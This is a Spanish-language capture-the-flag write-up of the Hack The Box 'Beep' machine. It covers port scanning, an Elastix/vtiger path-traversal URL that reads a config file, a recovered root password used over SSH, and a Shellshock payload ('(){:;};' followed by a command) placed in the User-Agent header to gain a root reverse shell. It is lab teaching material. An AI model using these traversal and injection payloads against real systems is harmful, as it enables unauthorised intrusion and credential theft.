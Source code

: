 #  BEEP MACHINE

**Autor: Christian Jimenez**

![logo](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.7 -oG allPorts
```

La salida nos muesta los puertos 22,25,80,110,111,143,443,879,993,995,3306,4190,4445,4559,5038,10000 abiertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p22,25,80,110,111,143,443,879,993,995,3306,4190,4445,4559,5038,10000 -sV -sC 10.10.10.7 -oN targeted
```

y esta es la salida:

```bash
# Nmap 7.91 scan initiated Mon Jul 19 10:20:37 2021 as: nmap -p22,25,80
       │  targeted 10.10.10.7
   2   │ Nmap scan report for 10.10.10.7
   3   │ Host is up (0.20s latency).
   4   │ 
   5   │ PORT      STATE SERVICE    VERSION
   6   │ 22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
   9   │ |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
  10   │ 25/tcp    open  smtp       Postfix smtpd
  11   │ |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETR
       │ N, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
  12   │ 80/tcp    open  http       Apache httpd 2.2.3
  13   │ |_http-server-header: Apache/2.2.3 (CentOS)
  14   │ |_http-title: Did not follow redirect to https://10.10.10.7/
  15   │ 110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
  16   │ |_pop3-capabilities: USER TOP STLS PIPELINING IMPLEMENTATION(Cyrus POP3
       │  server v2) APOP AUTH-RESP-CODE RESP-CODES EXPIRE(NEVER) UIDL LOGIN-DEL
       │ AY(0)
  17   │ 111/tcp   open  rpcbind    2 (RPC #100000)
  18   │ 143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
  19   │ |_imap-capabilities: THREAD=REFERENCES IMAP4 ATOMIC CATENATE RIGHTS=kxt
       │ e SORT URLAUTHA0001 X-NETSCAPE SORT=MODSEQ LIST-SUBSCRIBED BINARY ACL L
       │ ISTEXT IDLE LITERAL+ CONDSTORE MULTIAPPEND OK THREAD=ORDEREDSUBJECT UNS
       │ ELECT ANNOTATEMORE NO IMAP4rev1 QUOTA Completed CHILDREN ID UIDPLUS MAI
       │ LBOX-REFERRALS NAMESPACE RENAME STARTTLS
  20   │ 443/tcp   open  ssl/https?
  21   │ | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=
       │ SomeOrganization/stateOrProvinceName=SomeState/countryName=--
  22   │ | Not valid before: 2017-04-07T08:22:08
  23   │ |_Not valid after:  2018-04-07T08:22:08
  24   │ |_ssl-date: 2021-07-19T14:17:49+00:00; -6m16s from scanner time.
  25   │ 879/tcp   open  status     1 (RPC #100024)
  26   │ 993/tcp   open  ssl/imap   Cyrus imapd
  27   │ |_imap-capabilities: CAPABILITY
  28   │ 995/tcp   open  pop3       Cyrus pop3d
  29   │ 3306/tcp  open  mysql      MySQL (unauthorized)
  30   │ |_ssl-cert: ERROR: Script execution failed (use -d to debug)
  31   │ |_ssl-date: ERROR: Script execution failed (use -d to debug)
  32   │ |_sslv2: ERROR: Script execution failed (use -d to debug)
  33   │ |_tls-alpn: ERROR: Script execution failed (use -d to debug)
  34   │ |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
  35   │ 4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5
       │ _6.4 (included w/cyrus imap)
  36   │ 4445/tcp  open  upnotifyp?
  37   │ 4559/tcp  open  hylafax    HylaFAX 4.3.10
  38   │ 5038/tcp  open  asterisk   Asterisk Call Manager 1.1
  39   │ 10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
  40   │ |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
       │ .
  41   │ Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localho
       │ st; OS: Unix
  42   │ 
  43   │ Host script results:
  44   │ |_clock-skew: -6m16s
  45   │ 
  46   │ Service detection performed. Please report any incorrect results at htt
       │ ps://nmap.org/submit/ .
  47   │ # Nmap done at Mon Jul 19 10:27:14 2021 -- 1 IP address (1 host up) sca
       │ nned in 397.24 seconds

```

son muchos puertos asi que vamos a empezar con el 80, si ingresamos a la pagina vemos que tiene un certificado autofirmado y es un panel de login:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/3.PNG)

Buscamos credenciales por defecto pero ninguna funciono.

La enumeracion de directorios con wfuzz mostró algunas carpetas pero no fue de mucha ayuda al revisar cada una.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/4.PNG)

En el login muestra el servicio que esta alojado en la pagina (elastix), no tenemos la version pero buscamos en searchsploit de todas formas: 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/5.PNG)

Vemos varios resultados, pero en este caso intentando con el Local File Inclusion se tiene algo interesante.

## EXPLOTACION

### LOCAL FILE INCLUSION

si examinamos el exploit de local file inclusion se una ruta que podemos probar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/6.PNG)

colocamos esa ruta junto a la direccion IP en el navegador:

```html
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Y obtenemos lo siguiente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/7.PNG)

Para darle un mejor formato hacemos Ctrl+u y si bajamos vemos unas credenciales:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/8.PNG)

podemos leer diferentes archivos con el LFI y se tiene 2 usuarios potenciales donde se cree que esta la flag: root y fannis. Auque se podria entrar como otro usuario y hacer un movimiento lateral , se tiene el puerto 22 abierto y si intentamos con root o fannis y la contraseña encontrada en el LFI tenemos exito con root:

user: root
pass: jEhdIekWmdjE

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7 
```

El parametro **-oKexAlgorithms=+diffie-hellman-group1-sha1** es porque nos daba un error de negociacion de claves.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/9.PNG)

Ok eso fue demasiado sencillo, pero se puede explotar de mas formas.

### SHELLSHOCK

Vemos que estaba el puerto 10000 abierto con un servicio http:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/10.PNG)

si ingresamos vemos un panel de inicio de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/11.PNG)

si colocamos admin y password (o cualquier otra credencial) nos dice que es incorrecto pero en la url veo que se agrega un archivo **session_login.gci**: 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/12.PNG)

cuando se ve un archivo de tipo .cgi se puede probar el ataque shellshock, esto si la shell es vulnerable.

Estos archivos interactuan con una bash y si es una bash vulnerable es posible ejecutar comandos arbitrarios.

La vulnerabilidad esta en la inyeccion de comandos en variables de entorno, sabemos podemos definir una variable de entorno de la siguiente manera:

```bash
export SALUDO="hola mundo"

echo $SALUDO #hola mundo
```

tambien es posible almacenar dentro de una variable de entorno una funcion escrita en bash que tiene la siguiente sintaxis:

```bash

nombre_funcion(){contenido}

#EJEMPLO

export saludo="(){echo \"hola mundo\"}"

bash -c 'saludo' #hola mundo
```

En este ejemplo no es necesario colocar un nombre de funcion y estamos escapando las comillas dobles. Dentro de una variable de entorno declarada como si tuviera una funcion se puede ejecutar comandos del sistema, en este caso hicimos un simple echo dentro de la funcion.

Sabemos que con **;** se puede concatenar comandos, que pasa si colocamos lo siguiente:

```bash
export saludo="(){:;}; whoami"
```

Pues si la bash es vulnerable es posible realizar la ejecucion de comandos, ya que despues de una funcion que no hace nada se esta concatenando otro comando mendiante el **;**.

A veces es necesario colocar 1 o 2 **echo;** despues de la funcion o antes del comando.

Ahora a nivel web esto se puede coloacr en una cabecera, por ejemplo el **User-Agent** ya que en el servidor web estas cabeceras las reconoce como variables de entorno.

Entonces volviendo a la maquina, si con burpsuite interceptamos la peticion que se realiza al **session_login.cgi** y en su cabecera **User-Agent** probamos esta inyeccion de payload veamos si podemos obtener una reverse shell:

interceptamos la peticion poniendo cualquier dato y modificarmos esa cabecera:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/13.PNG)

si ahora eso lo mandamo por el repiter y nos colocamos en escucha con netcat:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/14.PNG)

Vemos que tenemos ejecucion remota de comandos como Root y ya podriamos leer las flags.



